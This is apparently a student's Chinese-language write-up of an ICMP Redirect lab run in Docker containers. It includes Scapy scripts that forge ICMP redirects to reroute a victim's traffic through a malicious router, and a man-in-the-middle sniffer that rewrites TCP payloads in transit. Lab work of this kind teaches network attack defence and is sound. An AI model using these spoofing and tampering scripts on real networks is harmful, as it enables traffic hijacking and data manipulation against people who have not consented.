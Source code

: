 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
# comments: true
---  
```


# ICMP Redirect

!!! warning "在 Ubuntu 24.04 中的改动"

	如果直接在 24.04 中启动实验容器，会遇到：
	
	![](../../../../../assets/Pasted%20image%2020250513172909.png)
	
	> 这是因为 `sysctls` 块通常用于设置容器全局的内核参数，而像 `eth0` 这样的接口是在容器启动并连接到网络之后才确定的。Docker 为了更精确地控制网络接口相关的参数，要求这类配置通过特定的驱动选项来传递
	> 
	> —— Gemini 2.5 Pro
	
	因此我们要对 docker-compose.yml 进行如下修改：
	
	```yaml
	sysctls: 
		- net.ipv4.ip_forward=1 
		- net.ipv4.conf.all.send_redirects=0 
		- net.ipv4.conf.default.send_redirects=0 
		# 移除: - net.ipv4.conf.eth0.send_redirects=0 
	privileged: true
	volumes: 
		- ./volumes:/volumes 
	networks: 
		net-10.9.0.0: 
			ipv4_address: 10.9.0.111 
	command: bash -c "
		 # 在容器启动后尝试设置 eth0 的参数 
		 sysctl -w net.ipv4.conf.eth0.send_redirects=0
		 && ip route add 192.168.60.0/24 via 10.9.0.11 
		 && tail -f /dev/null 
		 "
	```
	
	重新启动容器即可进行接下来的实验

## 任务 1：发起 ICMP 重定向攻击

在受害者容器 `victim-10.9.0.5` 中运行 `ip route`，输出如下：

![](../../../../../assets/Pasted%20image%2020250513174214.png)

在攻击者容器中编写代码如下：

```python title="icmp_redirect.py"
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
# Type 5 表示重定向, Code 1 表示主机重定向
icmp = ICMP(type = 5, code = 1)
# 在 ICMP 负载中设置网关地址 (恶意路由器)
icmp.gw = "10.9.0.111"

# ICMP 重定向包必须携带触发它的原始 IP 数据包
ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

首先在受害者容器中显示路由缓存并清空：

![](../../../../../assets/Pasted%20image%2020250513174805.png)

保持在受害者容器中 `ping 192.168.60.5`，然后在攻击者容器中运行代码，并在受害者容器中进行 traceroute 操作：

![](../../../../../assets/Pasted%20image%2020250513192753.png)

会发现受害者容器的路由已经改变

- 问题 1：修改代码如下：

```python
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code = 1)
icmp.gw = "192.168.60.6"

ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

同上理运行代码，能得到：

![](../../../../../assets/Pasted%20image%2020250513193209.png)

可以看到没能实现攻击

- 问题二：修改代码如下：

```python
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code = 1)
icmp.gw = "10.9.0.99"

ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

同上理运行代码，能得到：

![](../../../../../assets/Pasted%20image%2020250513193544.png)

还是没能实现攻击

- 问题三：在恶意路由器容器中设置：

```bash
sysctl -w net.ipv4.conf.all.send_redirects=1
sysctl -w net.ipv4.conf.default.send_redirects=1
sysctl -w net.ipv4.conf.eth0.send_redirects=1
```

然后重新发起正确的 ICMP 重定向攻击，得到：

![](../../../../../assets/Pasted%20image%2020250513195945.png)

仍然是不能实现攻击的
***
## 任务 2：发起 MITM 攻击

首先在恶意路由器上禁用 IP 转发：

![](../../../../../assets/Pasted%20image%2020250513201025.png)

查看受害者容器的 MAC 地址：

![](../../../../../assets/Pasted%20image%2020250513201728.png)

保持受害者容器 `ping 192.168.60.5`，然后在攻击者容器中运行 `icmp_redirect.py`，在恶意路由器上编写如下代码并运行：

```python title="mitm.py"
from scapy.all import *

def spoof_pkt(pkt):
	newpkt = IP(bytes(pkt[IP]))
	del(newpkt.chksum)
	del(newpkt[TCP].payload)
	del(newpkt[TCP].chksum)
	
	if pkt[TCP].payload:
		data = pkt[TCP].payload.load
		print("*** %s, length: %d" % (data, len(data)))
		
		newdata = data.replace(b'BruceJin', b'AAAAAAAA')
		
		send(newpkt / newdata)
	else:
		send(newpkt)
	
f = 'tcp and ether src 42:16:51:ac:9e:0c'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

在目标容器 192.168.60.5 上启动 netcat 服务，并在受害者容器中连接到服务器，输入名字，会发现变成了 AAAAAAAA：

![](../../../../../assets/Pasted%20image%2020250513202209.png)

![](../../../../../assets/Pasted%20image%2020250513202218.png)

说明攻击成功

- 问题 4：我们只需要过滤出从 victim 到 host 的数据流量，因为我们就是要在这里将数据篡改使得 host 收到的是错误信息即可
- 问题 5：我们把过滤条件换成 A 的 IP 地址：

```python
from scapy.all import *

def spoof_pkt(pkt):
	newpkt = IP(bytes(pkt[IP]))
	del(newpkt.chksum)
	del(newpkt[TCP].payload)
	del(newpkt[TCP].chksum)
	
	if pkt[TCP].payload:
		data = pkt[TCP].payload.load
		print("*** %s, length: %d" % (data, len(data)))
		
		newdata = data.replace(b'BruceJin', b'AAAAAAAA')
		
		send(newpkt / newdata)
	else:
		send(newpkt)
	
f = 'tcp and src host 10.9.0.5'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

同样也可以达到效果：

![](../../../../../assets/Pasted%20image%2020250513203353.png)

![](../../../../../assets/Pasted%20image%2020250513203405.png)

但是会发现 mitm.py 这里一直在发包：

![](../../../../../assets/Pasted%20image%2020250513203442.png)

这是因为它捕获到了自己发送的报文，发送完又捕获到了，陷入了死循环
